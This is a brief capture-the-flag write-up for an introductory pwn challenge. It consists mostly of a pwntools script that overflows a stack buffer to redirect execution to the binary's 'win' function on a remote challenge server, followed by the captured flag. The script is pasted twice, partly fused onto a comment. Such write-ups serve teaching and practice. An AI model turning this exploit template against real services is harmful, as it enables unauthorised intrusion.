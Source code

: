 # Training Problem: Intro to PWN

Solved by: @OS1R1S

## Question:
Classic win function pwn.

## Solution:
```
from pwn import *
context.bits=64
e = ELF('./pwnme')

#p=process(e.path)
p=remote('0.cloud.chals.io',13545)

offset=48
addr=e.sym['win'] #0x00401196
ret=0x0040101a

payload=b'A'*offset
payload+=b'B'*8
payload+=p64(ret)
payload+=p64(addr)
print(payload)

p.sendline(payload)
p.interactive()
#from pwn import *
context.bits=64
e = ELF('./pwnme')

#p=process(e.path)
p=remote('0.cloud.chals.io',13545)

offset=48
addr=e.sym['win'] #0x00401196
ret=0x0040101a

payload=b'A'*offset
payload+=b'B'*8
payload+=p64(ret)
payload+=p64(addr)
print(payload)

p.sendline(payload)
p.interactive()
#udctf{h00r4y_I_am_a_pwn3r_n0w}
```

**Flag:`udctf{h00r4y_I_am_a_pwn3r_n0w}`** 
